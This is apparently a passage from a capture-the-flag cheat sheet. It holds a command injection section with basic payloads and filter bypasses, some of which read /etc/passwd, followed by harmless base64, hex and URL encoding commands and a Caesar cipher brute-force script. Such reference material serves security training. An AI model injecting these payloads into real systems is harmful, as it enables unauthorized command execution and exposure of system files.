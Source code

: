 ### Command Injection
```bash
# Basic payloads
; ls -la
| whoami
&& cat /etc/passwd
`id`
$(whoami)

# Bypassing filters
ls${IFS}/
cat${IFS}/etc/passwd
{ls,-la}
```

---

## 🔐 Cryptography

### Common Encodings
```bash
# Base64
echo "text" | base64
echo "dGV4dA==" | base64 -d

# Hex
echo "text" | xxd -p
echo "74657874" | xxd -r -p

# URL encoding
python3 -c "import urllib.parse; print(urllib.parse.quote('text'))"
python3 -c "import urllib.parse; print(urllib.parse.unquote('text%20here'))"

# ASCII to decimal
python3 -c "print(' '.join(str(ord(c)) for c in 'text'))"
python3 -c "print(''.join(chr(int(x)) for x in '116 101 120 116'.split()))"
```

### Caesar Cipher
```python
def caesar_decrypt(text, shift):
    result = ""
    for char in text:
        if char.isalpha():
            shifted = ord(char) - shift
            if char.isupper():
                if shifted < ord('A'):
                    shifted += 26
            else:
                if shifted < ord('a'):
                    shifted += 26
            result += chr(shifted)
        else:
            result += char
    return result

# Brute force all shifts
for i in range(26):
    print(f"Shift {i}: {caesar_decrypt('KHOOR ZRUOG', i)}")
```
